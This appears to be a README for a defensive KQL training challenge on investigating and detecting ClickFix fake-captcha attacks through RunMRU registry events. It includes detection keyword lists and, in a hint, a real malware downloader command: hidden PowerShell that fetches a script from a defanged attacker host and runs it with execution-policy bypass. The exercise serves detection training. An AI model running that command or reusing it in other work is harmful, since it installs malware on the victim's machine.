


# Level 1

Welcome to KustoCon! In level 1 we dive into the world of ClickFix, this growing social engineering technique is on the rise since this year. The technique abuses the windows run functionality to drop malware onto systems. It is your job to investigate this using **KQL** and to build a solid detection for it.

⚠️ This exercise uses real malware samples, do not download files unless you are sure you accept the risk of being hacked.



Related links:
- https://kqlquery.com/posts/investigate-clickfix/
- https://clickfix.carsonww.com/
- https://www.microsoft.com/en-us/security/blog/2025/08/21/think-before-you-clickfix-analyzing-the-clickfix-social-engineering-technique/?msockid=226f755d7be7693e3414600b7a0a6869

### Host
| DeviceName  | DeviceId |
|-------|-----|
| kustocon-level1 | 6d99a2b880a14561f58d9b4d1292b63cbc9a51ec  |

# ClickFix Triage
The [ClickFix Triage Query](https://kqlquery.com/posts/investigate-clickfix/) has been published to help analyst triage clickfix incident. Investigate the query and understand how each part operates.

We are investigating a user that fell for a fake captcha and executed the commands.



```KQL
// Input variables
let VictimDeviceId = "6d99a2b880a14561f58d9b4d1292b63cbc9a51ec";
let TopXEvents = 15;
let TimeFrame = 5m;
// Input parameters for the forensic hunting query
let Parameters = dynamic(['http', 'https', 'Encoded', 'EncodedCommand', '-e', '-eC', '-enc', "-w", 'iex']);
let Executables = dynamic(["cmd", "powershell", "curl", "mshta", "msiexec", "conhost"]);
let FilteredSIDs = dynamic(["S-1-5-18"]);
let RegKeyEvents =
 DeviceRegistryEvents
 | where DeviceId =~ VictimDeviceId
 | where ActionType == "RegistryValueSet"
 | where RegistryKey has "RunMRU"
 | where RegistryValueData has_any (Parameters) and RegistryValueData has_any (Executables)
 | extend LogType = "☢️ RunMRU Event"
 | project Timestamp, DeviceId, DeviceName, RegistryValueData, RegistryKey, LogType;
let RegKeyEventTimestamp = toscalar (RegKeyEvents | summarize Timestamp = max(Timestamp));
let NetworkEventsParser = materialize (DeviceNetworkEvents
 | where DeviceId =~ VictimDeviceId
 | where not(InitiatingProcessAccountSid in~ (FilteredSIDs))
 | where isnotempty(RemoteUrl)
 | extend MatchTimeStamp = RegKeyEventTimestamp
 | project Timestamp, RemoteIP, RemoteUrl, ReportId, DeviceId, DeviceName, MatchTimeStamp, InitiatingProcessCommandLine);
let PreInfectionNetworkEvents =
 NetworkEventsParser
 | where Timestamp between ((MatchTimeStamp - TimeFrame) .. MatchTimeStamp)
 | top TopXEvents by Timestamp desc
 | extend LogType = "🛜 Pre Infection Network Event";
let PostInfectionNetworkEvents =
 NetworkEventsParser
 | where Timestamp between (MatchTimeStamp .. (MatchTimeStamp + TimeFrame))
 | top TopXEvents by Timestamp asc
 | extend LogType = "🛜 Post Infection Network Event";
let PostInfectionProcessEvents = DeviceProcessEvents
 | where DeviceId =~ VictimDeviceId
 | where Timestamp between (RegKeyEventTimestamp .. (RegKeyEventTimestamp + TimeFrame))
 | top TopXEvents by Timestamp asc
 | where not(InitiatingProcessAccountSid in~ (FilteredSIDs))
 | extend LogType = "♻️ Post Infection Process Event"
 | project Timestamp, ReportId, LogType, DeviceId, DeviceName, ProcessCommandLine, InitiatingProcessCommandLine;
let PostInfectionFileEvents = DeviceFileEvents
 | where DeviceId =~ VictimDeviceId
 | where Timestamp between (RegKeyEventTimestamp .. (RegKeyEventTimestamp + TimeFrame))
 | top TopXEvents by Timestamp asc
 | where not(InitiatingProcessAccountSid in~ (FilteredSIDs))
 | extend LogType = "📁 Post Infection File Event"
 | project Timestamp, ReportId, LogType, DeviceId, DeviceName, ActionType, InitiatingProcessCommandLine, FolderPath;
union isfuzzy=false PreInfectionNetworkEvents,RegKeyEvents, PostInfectionNetworkEvents, PostInfectionProcessEvents, PostInfectionFileEvents
| sort by Timestamp asc
| project-reorder Timestamp, DeviceId, DeviceName, LogType, RemoteUrl, RegistryValueData, ProcessCommandLine, FolderPath, InitiatingProcessCommandLine
```

# Detection 

## RunMRU Registry Key
One of the key indicators of ClickFix campaigns is the *HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU* Registry Key that is set. Use this information to build a detection rule to catch ClickFix campaigns.

<details>
<summary>Tip 1</summary>
The base of the detection is shared below. The RunMRU registry value is set and you want to filter on the RunMRU Key, now it is up to you to identify suspicious commands.

The [ClickFix Hunter Project](https://clickfix.carsonww.com/) lists the commandlines of the identified clickfix campaings. Use this knowledge to build a detection.


```KQL
DeviceRegistryEvents
| where ActionType == "RegistryValueSet"
| where RegistryKey has "RunMRU"
```

</details>


<details>
<summary>Tip 2</summary>
Identity the common delimitors of the ClickFix campains, what are the lolbins that are used to drop the malware and which parameters are used to stay undetected by the user?

In the clickfix triage query the intial infection is started by running:

⚠️ This is real malware, do not execute unless you are sure you accept the risk of being hacked.

```PowerShell
powershell -w h -nop -c "$s=Join-Path $env:APPDATA 'djw\6kn9.ps1';md (Split-Path $s) -ea 0;$l='hxxps://cbtechnic[.]com/0.wav';iwr $l -OutFile $s;& powershell -w h -ep Bypass -f $s"
```
</details>

<details>
<summary>Answer</summary>

```KQL
let Parameters = dynamic(['http', 'https', 'Encoded', 'EncodedCommand', '-e', '-eC', '-enc', "-w", 'iex']);
let Executables = dynamic(["cmd", "powershell", "curl", "mshta", "msiexec", "conhost"]);
DeviceRegistryEvents
| where ActionType == "RegistryValueSet"
| where RegistryKey has "RunMRU"
| where RegistryValueData has_any (Parameters) and RegistryValueData has_any (Executables)
| project-reorder Timestamp, DeviceId, DeviceName, RegistryValueData, RegistryKey
```
</details>

# Bonus: Forensic Hunting
This chapter uses the [triage query](#clickfix-triage) as starting point and uncovers the post-compromise activities based on this infection. 

As starting point the [incident](https://security.microsoft.com/incident2/126/) in security.microsoft.com can be used.


**Anti Forensics**

The malware deleted the RunMRU registry keys after the host got infected, with this they want to remove their traces and make it harder to perform an investigation. Try to identify this anti forensic mechanism using KQL.

<details>
<summary>Tip 1</summary>
Investigate what actions were executed from the commandline below.

```PowerShell
"powershell.exe" -w h -ep Bypass -f C:\Users\level1\AppData\Roaming\djw\6kn9.ps1
```

</details>


<details>
<summary>Tip 2</summary>
The RunMRU registry key has been deleted, you can use the below query as starting point to detect the activity.

```KQL
DeviceRegistryEvents
| where ActionType == "RegistryValueDeleted"
```

</details>

<details>
<summary>Answer</summary>

```KQL
DeviceRegistryEvents
| where ActionType == "RegistryValueDeleted"
| where PreviousRegistryKey has "RunMRU"
| project-reorder Timestamp, PreviousRegistryKey, PreviousRegistryValueName, PreviousRegistryValueData, InitiatingProcessCommandLine
```

</details>
